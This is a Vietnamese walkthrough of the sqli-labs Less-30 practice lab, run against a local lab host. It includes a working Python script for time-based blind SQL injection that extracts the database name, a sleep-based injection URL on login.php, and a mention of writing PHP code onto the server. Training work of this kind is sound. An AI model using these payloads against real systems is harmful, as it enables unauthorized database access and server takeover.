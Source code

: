 # Less 30

Đề bài cho phép truyền ID vào từ URL

![](../images/sqli-labs/Less-30/01.png)

Truyền thử giá trị

![](../images/sqli-labs/Less-30/02.png)

Tìm cách để injection

![](../images/sqli-labs/Less-30/03.png)

Ta thấy ko hiên thị lỗi

Tiếp tục thử

![](../images/sqli-labs/Less-30/04.png)

![](../images/sqli-labs/Less-30/05.png)

Ta thấy có thể khai thác được thông qua error based

![](../images/sqli-labs/Less-30/06.png)

![](../images/sqli-labs/Less-30/07.png)

Dựa vào đây tôi có thể sử dụng script như những bài trước để show các thông tin trong DB

```
import requests
import time
import string

url_1 = 'http://192.168.84.233/sqli-labs/Less-30/?id=1" and if(substr(('
query = "select database()"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả

```
python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
```

Ta còn thấy có màn login

![](../images/sqli-labs/Less-30/10.png)

Tôi cũng thử truyền ID vào đây

![](../images/sqli-labs/Less-30/11.png)

Khi tôi truyền giá trị không phải số vào đây thì ngay lập tức chuyển sang màn khác

![](../images/sqli-labs/Less-30/12.png)

Ta thấy ở đây đã kiểm tra đầy vào nếu không phải số thì chuyển tiếp sang trang khác. Tôi tiếp tục thử truyền vào 

```
http://192.168.84.233/sqli-labs/Less-30/login.php?id=1" and if(substr((select @@version),1,1)='5',sleep(10),false) --+
```

Thì thấy

![](../images/sqli-labs/Less-30/13.png)

Như vậy ta có thể thấy rằng dù chuyển trang nhưng những gì ta truyền vào vẫn được thực thi xuống DB. Như vậy ta vẫn có thể khai thác thông tin bằng cách này giống với bên trên.

Tương tự vậy ta có thể show các thông tin khác

Ta cũng có thể thêm đoạn code PHP lên server như những bài trước

![](../images/sqli-labs/Less-30/08.png)

![](../images/sqli-labs/Less-30/09.png)